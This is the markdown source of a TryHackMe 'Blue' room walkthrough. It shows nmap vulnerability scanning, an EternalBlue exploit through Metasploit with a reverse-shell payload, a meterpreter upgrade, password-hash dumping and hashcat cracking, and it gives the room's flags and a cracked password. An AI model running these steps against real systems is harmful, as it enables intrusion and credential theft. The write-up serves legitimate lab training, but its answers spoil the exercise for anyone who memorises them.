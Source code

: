 ```yaml
---
layout: page
title: Blue
permalink: /Tutorials/TryHackMe/Blue/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>
I used this page to help learn more Nmap commands maybe you can to!
<br/><br/>
https://www.stationx.net/nmap-cheat-sheet/
<br/><br/>
Start the machine and the connect using your Open VPN
<br/><br/>
Run "nmap *IP of Active machine*" to scan 1000 common ports
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-Port Count.PNG">
<br/><br/>
We now have the first Flag!
<br/>
**"3"** is the number of open ports under 1000
<br/><br/>
Now we need to see what the machine is vulnerable to
<br/><br/>
lets run a quick command on those 3 ports
<br/><br/>
"nmap --script vuln -p *IP of Active machine* -v"
<br/><br/>
"--script vuln" will load in scripts to scan on the target IP/Ports
<br/>
"-p 135-445" will scan ports 135-445 with those vulnerability script
<br/>
"-v" increases the verbosity *adds more words* (you can use -vv for a greater effect)
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-MS17.PNG">
<br/><br/>
Now we have our final flag of task 1!
<br/><br/>
in our command we see **"ms17-010"** it even shows the disclosure date right below the red box
<br/><br/>
<br/><br/>
**TASK 2**
<br/><br/>
We will need to use Metasploit for this portion
<br/><br/>
Lets run "msfdb init" (MetaSploit Framework DataBase Initialize)
<br/><br/>
Now lets run "msfconsole"
<br/><br/>
Once we get our ASCII art we can run the next command
<br/><br/>
"search ms17-010"
<br/><br/>
This will show several options but since weknow we have a Windows machine we can try those first
<br/><br/>
"use 2" will choose the second choice
<br/><br/>
**"exploit/windows/smb/ms17_010_eternalblue"** is the answer for the full path of the code
<br/><br/>
Next up "Set RHOSTS *IP of Active machine*"
<br/><br/>
**"RHOSTS"** is the answer for the name of the value
<br/><br/>
We will also need to set the LHOSTS to tun0
<br/><br/>
"set LHOST tun0" due to using a vpn
<br/><br/>
"show options" will show all the required areas are now done
<br/><br/>
The room wants us to use "set payload windows/x64/shell/reverse_tcp" before we do the next step
<br/><br/>
all we have to do now is type "run"
<br/><br/>
No we are in! (You may need to press enter) 
<br/><br/>
**TASK 3**
<br/><br/>
Type "whoami" to see if we are now connected as "nt authority\system"
<br/><br/>
place this session in the background with "ctrl+Z"
<br/><br/>
now we need to search for shell_to_meterpreter
<br/><br/>
"search shell_to_meterpreter"
<br/><br/>
We now see the answer to a question!
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-1.PNG">
"**post/multi/manage/shell_to_meterpreter**"
<br/><br/>
Now lets use what we found
<br/><br/>
"use post/multi/manage/shell_to_meterpreter"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 3-2.PNG">
use "show options" and we see we need to change "**Session**"
<br/><br/>
now we need to set our session
<br/><br/>
use "sessions" to find your sessions #
<br/><br/>
"set session *Session #*"
<br/><br/>
once that is done type "sessions" and it should have new information under "Information"
<br/><br/>
type "session *session #*
<br/><br/>
now it should show "meterpreter" on the current line
<br/><br/>
try using "shell" and then "whoami" to see if we are system
<br/><br/>
press "ctrl+z" to get back to meterpreter
<br/><br/>
Now lets look at processes w/ "ps"
<br/><br/>
now we need to try and migrate to one of these processes
<br/><br/>
I used "migrate 2536" to go to svchost.exe but your masy be different
<br/><br/>
**TASK 4**
<br/><br/>
Now we get to play with hashes!
<br/><br/>
"hashdump" will give us 3 hashes
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-1.PNG">
"**Jon**" is the answer to 1 question of Task 4
<br/><br/>
if you google "windows password hash format" you will see they are either LM or NTLM
<br/><br/>
Lets try to crack all 3 with hashcat!
<br/><br/>
Lets save them as a document named "Bluehashes.txt"
<br/><br/>
you will need world lists for hashcat. I already had a "rockyou" list so I will use that
<br/><br/>
for hashcat we will use "sudo hashcat -a 0 -m 1000 Bluehashes.txt rockyou.wordlist --force --username --show > Hashed.txt"
<br/><br/>
-a is for the attack mode 0, -m 1000 is for the NTLM hash format, --force is for if you do not have a Intel OpenCL runtime, --username ignores the username, > Hashed.txt names a file with the output
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 4-2.PNG">
In that new file at the end of Jons line is "**alqfna22**"
<br/><br/>
**TASK 5**
<br/><br/>
Now we need to find flags
<br/><br/>
"Flag1? This flag can be found at the system root."
<br/><br/>
"ls C:\\ will list the root
<br/><br/>
we now see "flag1.txt"
<br/><br/>
lets cat it!
<br/><br/>
"cat flag1.txt"
<br/><br/>
<img src="/images/TryHackMe/Blue/Task 5-1.PNG">
"**flag{access_the_machine}**"
<br/><br/>
The second flag is where passwords are stored which would be C:\windows\system32
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
